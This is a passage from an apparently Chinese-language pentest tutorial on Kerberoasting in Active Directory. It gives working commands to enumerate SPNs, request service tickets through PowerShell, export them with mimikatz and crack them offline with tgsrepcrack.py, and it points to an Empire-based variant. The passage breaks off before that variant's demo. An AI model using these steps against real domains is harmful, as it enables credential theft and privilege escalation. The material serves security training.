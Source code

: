 参数如下：

```
cscript GetUserSPNs.vbs
```

### 2、请求TGS

#### (1)请求指定TGS

```
$SPNName = 'MSSQLSvc/DC1.test.com'
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```

#### (2)请求所有TGS

```
Add-Type -AssemblyName System.IdentityModel  
setspn.exe -q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  
```

执行后输入`klist`查看内存中的票据，可找到获得的TGS

### 3、导出

使用mimikatz

```
kerberos::list /export
```

### 4、破解

https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py

```
./tgsrepcrack.py wordlist.txt test.kirbi
```

## 0x05 Kerberoasting的实现方法二
---

自动实现，并且不需要mimikatz，普通用户权限即可，参考资料：

http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/

代码地址：

https://github.com/EmpireProject/Empire/commit/6ee7e036607a62b0192daed46d3711afc65c3921

使用`System.IdentityModel.Tokens.KerberosRequestorSecurityToken`请求TGS，在返回结果中提取出TGS，输出的TGS可选择John the Ripper或Hashcat进行破解

实例演示：
